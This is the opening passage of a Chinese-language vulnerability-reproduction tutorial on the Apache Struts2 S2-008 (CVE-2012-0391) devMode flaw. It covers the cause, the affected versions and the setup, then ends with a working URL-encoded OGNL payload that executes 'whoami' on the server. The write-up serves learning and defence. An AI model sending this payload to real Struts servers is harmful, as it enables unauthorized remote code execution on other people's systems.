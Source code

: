 * [目录](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-008/S2-008.md#目录)
   * [前言](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-008/S2-008.md#前言)
   * [Struts简介](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-008/S2-008.md#struts简介)
   * [漏洞复现](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-008/S2-008.md#漏洞复现)
      * [漏洞简介](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-008/S2-008.md#漏洞简介)
         * [漏洞成因](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-008/S2-008.md#漏洞成因)
         * [漏洞影响范围](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-008/S2-008.md#漏洞影响范围)
      * [环境搭建](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-008/S2-008.md#环境搭建)
      * [Payload](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-008/S2-008.md#payload)
         * [执行命令](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-008/S2-008.md#执行命令)
         * [读取文件](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-008/S2-008.md#读取文件)
      * [POC](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-008/S2-008.md#poc)
   * [漏洞分析](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-008/S2-008.md#漏洞分析)
   * [漏洞修复](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-008/S2-008.md#漏洞修复)
   * [总结](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-008/S2-008.md#总结)
   * [参考](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-008/S2-008.md#参考)

## 前言

> 这是Struts系列第五篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-008漏洞,又名CVE-2012-0391漏洞.

> Struts2框架存在一个devmode模式,当devmode模式开启时,Struts2对传入的参数没有严格限制,导致多个地方可以执行恶意代码.

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-008)

#### 漏洞成因

> Struts2框架存在一个devmode模式,当devmode模式开启时,Struts2对传入的参数没有严格限制,导致多个地方可以执行恶意代码.

#### 漏洞影响范围

> Struts 2.0.0 - Struts 2.3.17

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 执行命令

```java
?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29
```

